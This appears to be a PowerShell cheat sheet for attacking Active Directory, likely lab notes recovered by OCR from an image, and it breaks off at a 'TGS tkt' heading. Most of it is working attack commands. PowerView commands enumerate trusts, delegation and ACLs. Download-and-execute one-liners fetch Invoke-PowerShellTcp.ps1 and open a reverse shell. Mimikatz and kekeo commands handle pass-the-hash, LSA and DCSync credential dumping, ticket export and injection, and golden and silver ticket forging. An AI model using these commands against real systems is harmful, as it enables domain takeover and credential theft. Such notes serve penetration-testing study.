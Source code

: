 ```powershell

# Get users that are part of a Machine's local Admin group
Find-GPOComputerAdmin -ComputerName

# Get OUs
Get-NetOU -FullData Get-NetGPO -GPOname

# Mapping forest
Get-NetForest -Verbose
Get-NetForestDomain -Verbose

# Mapping trust
Get-NetDomainTrust
Arguments -Domain
Get-NetForestDomain -Verbose | Get-NetDomainTrust

# Finding Constrained Delegation
Get-DomainUser -TrustedToAuth (Poweview Dev.)

# Finding UnConstrained Delegation
Get-NetComputer -UnConstrained

# Get ACLs
Get-ObjectAcl -SamAccountName -ResolveGUIDs Get-ObjectAcl -ADSprefix 'CN=Administrator, CN=Users' -Verbose

# Search for interesting ACEs
Invoke-ACLScanner -ResolveGUIDs

# Reverse Shell
powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.113/Invoke-PowerShellTcp.ps1'));Invoke-PowerShellTcp -Reverse -IPAddress 172.16.100.X -Port 443
powershell.exe iex (iwr http://172.16.100.113/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Invoke-PowerShellTcp -Reverse -IPAddress 172.16.100.113 -Port 443

#Mimikatz
# Make ntlm ps-session
Invoke-Mimikatz -Command '"sekurlsa::pth /user: /domain: /ntlm: /run:powershell.exe"'

# Dump creds
Invoke-Mimikatz
Invoke-Mimikatz -Command ‘“lsadump::lsa /patch”’
Invoke-Mimikatz -Command '"lsadump::dcsync /user:\krbtgt"'
(dcsync requires 3 permission )

# Tickets
Inject ticket:-
Invoke-Mimikatz -Command '"kerberos::ptt <location of .kirbi tkt>"'
Export Tickets:-
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'

# Golden tkt
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<DomainName> /sid:<Domain's SID> /krbtgt:<krbtgt hash> id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'

# Silver tkt
Invoke-Mimikatz -Command '"kerberos::golden /domain:<DomainName> /sid:<DomainSID> /target:<target> /service:<ServiceType> /rc4:<rc4 NTLM Hash of user> /user:<UserToImpersonate> /ptt"'

# TGT tkt
kekeo.exe tgt::ask /user:<user name> /domain:<domain name> /rc4:<rc4 NTLM Hash of user>

# TGS tkt
```
